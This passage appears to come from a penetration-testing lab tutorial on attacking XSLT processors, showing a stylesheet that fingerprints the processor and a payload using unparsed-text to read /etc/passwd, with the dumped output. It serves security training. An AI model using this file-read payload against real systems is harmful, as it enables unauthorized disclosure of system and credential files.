The following file can be used to detect the underlying preprocessor.

**detection.xsl**

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```

Let us now run the previous command, but this time, using the detection.xsl file.

**Transformation through the terminal**

Attacking XSLT

```shell-session
AIceBear@htb[/htb]$ saxonb-xslt -xsl:detection.xsl catalogue.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```

Based on the preprocessor, we can go to the XSLT documentation for this version to identify functions of interest, such as the below.

* `unparsed-text` can be used to read local files.

**readfile.xsl**

Code: xml

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

**Transformation through the terminal**

Attacking XSLT

```shell-session
AIceBear@htb[/htb]$ saxonb-xslt -xsl:readfile.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of readfile.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```